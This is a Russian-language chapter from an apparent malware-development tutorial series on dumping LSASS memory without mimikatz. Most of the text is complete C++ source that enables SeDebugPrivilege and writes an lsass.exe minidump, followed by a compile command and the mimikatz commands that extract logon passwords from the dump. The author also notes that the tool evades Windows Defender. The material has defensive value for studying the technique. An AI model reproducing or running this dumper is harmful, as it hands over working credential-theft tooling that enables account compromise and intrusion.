






\newpage
\subsection{41. трюк разработки вредоносного ПО. Дамп lsass.exe. Простой пример на C++.}

﷽

{width="80%"}      

Сегодня я хочу показать, как можно сделать дамп `Lsass` без использования Mimikatz: через API `MiniDumpWriteDump`. Так как [mimikatz](https://github.com/gentilkiwi/mimikatz) — это очень известный инструмент и его легко обнаружить, хакеры находят новые способы повторной реализации некоторых его функций.     

### практический пример

Итак, как мы можем написать простой дампер процесса `lsass.exe`? Мы используем `MiniDumpWriteDump`:        

```cpp
BOOL MiniDumpWriteDump(
  [in] HANDLE                            hProcess,
  [in] DWORD                             ProcessId,
  [in] HANDLE                            hFile,
  [in] MINIDUMP_TYPE                     DumpType,
  [in] PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  [in] PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  [in] PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```

Функция `MiniDumpWriteDump` — это API Windows, создающее файл минидампа, который представляет собой небольшой снимок состояния приложения на момент вызова функции. Этот файл может быть полезен для отладки, так как содержит информацию об исключениях, список загруженных DLL, данные стека и другую системную информацию.      

Прежде всего, мы находим процесс `lsass.exe` с помощью такой функции:     

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // снимок всех процессов в системе
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // инициализация размера: необходимо для использования Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // информация о первом процессе в снимке системы
  hResult = Process32First(hSnapshot, &pe);

  // получение информации о процессах
  // выход при неудаче
  while (hResult) {
    // если процесс найден: возвращаем его ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // закрываем открытый дескриптор (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```

Необходимо иметь привилегию `SeDebugPrivilege`, чтобы создать дамп `LSASS` в качестве атакующего:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```

Затем создаем дамп:      

```cpp
// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0,
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : 
    "failed to dump :(\n");
  } 
  return dumped; 
}
```

Итак, полный исходный код выглядит так `hack.cpp`:      

```cpp
/*
 * hack.cpp - Dump lsass without mimikatz. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment (lib, "dbghelp.lib")

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
   (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, 
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumped; 
}

int main(int argc, char* argv[]) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!createMiniDump()) return -1;
  return 0;
}
```

Как можно заметить, не забудьте добавить `dbghelp.lib` в качестве зависимости:     

```cpp
#pragma comment (lib, "dbghelp.lib")
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш дампер на машине атакующего (`kali x64`):     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}      

Затем выполняем его на машине жертвы (`Windows 10 x64` в моём случае):     

```powershell
.\hack.exe
```

{width="80%"}      

Как можно заметить, `lsass.dmp` создаётся в рабочей директории: `C:\temp\`.     

Затем открываем `mimikatz`, загружаем дамп-файл и извлекаем пароли:      

```powershell
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

{width="80%"}      

{width="80%"}      

Интересный момент: не работает в `mimikatz v2.2.0` на моём Windows:      

{width="80%"}      

Обратите внимание, что Защитник Windows на `Windows 10` сразу же распознаёт `mimikatz`... но позволяет запустить `hack.exe`.      

В чём же трюк? Мы можем создать атаку следующим образом:         

- запустить `hack.exe` на машине жертвы     
- дамп `lsass.dmp` создаётся в рабочей директории    
- перенести `lsass.dmp` в оффлайн-режим на машину атакующего     
- открыть `mimikatz` и загрузить дамп-файл     
- извлечь пароли с машины жертвы (на машине атакующего)!     

Это всего лишь один из методов, о других я постараюсь рассказать в будущем.     

Этот трюк используется многими APT-группами и хакерскими инструментами. Например, [Cobalt Strike](https://attack.mitre.org/software/S0154) может порождать задачу для инъекции в память `LSASS` и извлекать хэши паролей. [Fox Kitten](https://attack.mitre.org/groups/G0117) и [HAFNIUM](https://attack.mitre.org/groups/G0125) использовали `procdump` для дампа памяти процесса `LSASS`.       

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

[MITRE ATT&CK - OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)       
[APT3](https://attack.mitre.org/groups/G0022)       
[Cobalt Strike](https://attack.mitre.org/software/S0154)        
[Fox Kitten](https://attack.mitre.org/groups/G0117)      
[HAFNIUM](https://attack.mitre.org/groups/G0125)      
[mimikatz](https://github.com/gentilkiwi/mimikatz)         
[MiniDumpWriteDump](https://learn.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-05-11-malware-tricks-28)     
